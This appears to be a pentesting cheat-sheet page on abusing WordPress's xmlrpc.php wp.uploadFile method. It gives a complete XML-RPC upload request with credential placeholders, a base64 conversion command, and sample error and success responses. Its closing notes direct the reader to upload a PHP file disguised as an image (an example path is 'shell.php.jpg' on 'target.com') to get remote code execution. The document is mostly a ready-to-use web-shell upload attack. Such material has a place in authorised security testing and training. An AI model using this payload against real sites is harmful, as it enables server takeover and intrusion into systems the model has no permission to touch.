 ### Uploading a file via `xmlrpc.php`
- Uploading a file if the username and password are correct.

```xml
<?xml version='1.0' encoding='utf-8'?>
<methodCall>
	<methodName>wp.uploadFile</methodName>
	<params>
		<param><value><string>1</string></value></param>
		<param><value><string>username</string></value></param>
		<param><value><string>password</string></value></param>
		<param>
			<value>
				<struct>
					<member>
						<name>name</name>
						<value><string>filename.jpg</string></value>
					</member>
					<member>
						<name>type</name>
						<value><string>mime/type</string></value>
					</member>
					<member>
						<name>bits</name>
						<value><base64><![CDATA[---base64-encoded-data---]]></base64></value>
					</member>
				</struct>
			</value>
		</param>
	</params>
</methodCall>
```

- Replace `---base64-encoded-data---` with your base64 file content.

---

### How to convert a file to base64?

```bash
base64 filename.jpg > output.txt
```

Then replace the content of `output.txt` in the payload.

---

### Invalid response example:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<methodResponse>
	<fault>
		<value>
			<struct>
				<member>
					<name>faultCode</name>
					<value><int>403</int></value>
				</member>
				<member>
					<name>faultString</name>
					<value><string>Incorrect username or password.</string></value>
				</member>
			</struct>
		</value>
	</fault>
</methodResponse>
```

---

### Successful response example:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<methodResponse>
	<params>
		<param>
			<value>
				<struct>
					<member>
						<name>id</name>
						<value><string>722</string></value>
					</member>
					<member>
						<name>file</name>
						<value><string>filename.jpg</string></value>
					</member>
					<member>
						<name>url</name>
						<value><string>http://target.com/wp-content/uploads/2013/05/filename.jpg</string></value>
					</member>
					<member>
						<name>type</name>
						<value><string>mime/type</string></value>
					</member>
				</struct>
			</value>
		</param>
	</params>
</methodResponse>
```

---

### Notes:
- Once the file is uploaded, the server responds with the uploaded file path.
- You can access it directly in your browser.
- Example: `http://target.com/wp-content/uploads/2025/04/shell.php.jpg`
- Try uploading a PHP file and achieve **Remote Code Execution (RCE)**.
